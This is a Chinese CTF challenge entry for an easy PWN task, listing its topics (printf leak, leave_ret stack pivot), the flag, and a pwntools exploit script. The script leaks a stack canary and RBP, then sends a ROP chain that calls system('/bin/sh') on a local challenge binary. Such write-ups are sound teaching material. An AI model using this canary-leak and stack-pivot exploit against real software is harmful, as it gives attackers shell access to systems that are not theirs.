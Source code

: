 - **题目名称：** I_want_2_LEAVE
- **题目类型：** PWN
- **题目难度：**简单
- **出题人：** i-Corner
- **考点：**

1. printf函数的输出终止情况
2. leave_ret 栈迁移

- **描述：** 呜呜呜呜CTF好难，想跑路了
- **flag：** XSCTF{CS2's_strafing_is_a_piece_of_s***}
- **Writeup：**

```python
from pwn import *
context(log_level='debug')
p = process('./b')
leave_ret = 0x401351
pop_rdi_ret = 0x4014d3

elf = ELF('./b')
p.recvuntil("what do you want to say?\n")

p.send(b'a'*0x40+p32(0xFFFFFFF1)+b'a'*0x3+b'b')
p.recvuntil('b')
can = p.recv(8)
rbp = u64(p.recv(6)+b'\x00'*2)

log.success("Canary:%s"%can)
log.success("RBP:0x%x"%rbp)

p.recvuntil("what do you want to say?\n")

system = 0x4012CC

pl = b'a'*0x8 +p64(pop_rdi_ret)+p64(rbp-0x70+4*0x8)+p64(system)+b'/bin/sh\x00'
pl = pl.ljust(0x48,b'a')
pl +=can+p64(rbp-0x70)+p64(leave_ret)
p.send(pl)


p.interactive()

```
